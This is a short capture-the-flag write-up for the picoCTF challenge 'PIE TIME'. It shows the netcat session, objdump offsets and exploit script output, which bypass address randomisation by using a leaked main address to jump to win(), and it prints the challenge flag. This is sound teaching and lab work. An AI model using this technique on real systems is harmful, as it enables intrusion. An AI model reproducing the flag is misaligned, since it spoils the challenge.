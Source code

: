 # PIE TIME

When I connect to the server, I get the address of the main function.
```
$ nc rescued-float.picoctf.net 58266
Address of main: 0x61c69872b33d
Enter the address to jump to, ex => 0x12345:
```

In order to get the flag, I need to call the `win()` function. I need to calculate the address of the `win()` function based on the main address which the server leaks.

So the address of the `win()` function can be calculated as `main_addr - 0x133d + 0x12a7`.
```
$ objdump -d vuln
...
00000000000012a7 <win>:
...
...
000000000000133d <main>:
...
```

```
$ python exploit_new.py 
[+] Opening connection to rescued-float.picoctf.net on port 58266: Done
[*] Received: Address of main: 0x650884fe833d
[*] Main address: 0x650884fe833d
[*] Win address: 0x650884fe82a7
[+] Receiving all data: Done (126B)
[*] Closed connection to rescued-float.picoctf.net port 58266
[*] Enter the address to jump to, ex => 0x12345: Your input: 650884fe82a7
    You won!
    picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_378c1259}
```